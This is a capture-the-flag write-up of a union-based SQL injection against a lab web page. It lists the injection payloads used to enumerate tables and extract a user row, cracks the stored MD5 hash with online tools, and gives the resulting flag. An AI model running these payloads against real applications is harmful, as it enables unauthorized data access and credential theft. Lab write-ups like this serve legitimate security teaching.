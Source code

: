 # UNION BASED SQL INJECTION

## Flag
```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Discovery
go to
```
 http://{IP_ADDRESS}/index.php?page=member
```
tryed a simple sql statement 
```
1 OR 1=1 
The SQL above is valid and will return ALL rows from the "users" table, since OR 1=1 is always TRUE.
```

Retrieve columns names with the table they belong to:
```
-1 UNION SELECT table_name,concat(column_name) FROM information_schema.COLUMNS 
```

Retrieve the id of the user (flag):
```
-1 UNION SELECT NULL, user_id FROM users
```

started investagting on that user (flag) by geting all its information each time changing col1, col2:
```
-1 UNION SELECT [col1_name], [col2_name] FROM db_default WHERE user_id=5
```

The table below show the result 

| user_id | first_name | last_name | town | country | planet | commentaire                                                                   | countersign |
| ------- | ---------- | --------- | ---- | ------- | ------ | ----------------------------------------------------------------------------- | ----------- |
|   5     | flag       | GetThe    |  42  |    42   |   42   | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28 |

following the instruction :
* analyzing the password using [cipher identifier](https://www.dcode.fr/cipher-identifier)
* decrypt the password using [md5decrypt - md5](https://md5decrypt.net/en/)
* 5ff9d0165b4f92b14994e5c685cdce28 gives FortyTwo 
* lower all the char, encrypt it using Sh256
* flag is 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

## Helpers:
- [retrieve data from db](https://www.sqlinjection.net/table-names/)
- [dcode - cipher identifier](https://www.dcode.fr/cipher-identifier)
- [md5decrypt - md5](https://md5decrypt.net/en/)
